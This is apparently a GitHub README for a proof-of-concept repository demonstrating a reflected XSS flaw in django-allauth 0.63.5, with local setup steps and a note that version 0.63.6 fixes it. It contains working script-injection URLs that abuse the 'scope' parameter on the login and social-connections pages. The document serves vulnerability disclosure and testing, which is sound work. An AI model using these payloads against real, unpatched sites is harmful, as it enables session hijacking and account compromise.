 # Proof of concept for a XSS vulnerability in django-allauth 0.63.5

You can read the full post [here](https://stsewd.dev/posts/xss-in-django-allauth-fb-provider/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to `http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>`

**XSS in social connections page**

- Go to `http://127.0.0.1:8000/accounts/login/`
- Log in with the user you created
- Go to `http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>`

Try updating the project to use django-allauth 0.63.6, and repeat the steps to see that the vulnerability is fixed.

```bash
$ uv add django-allauth==0.63.6
```
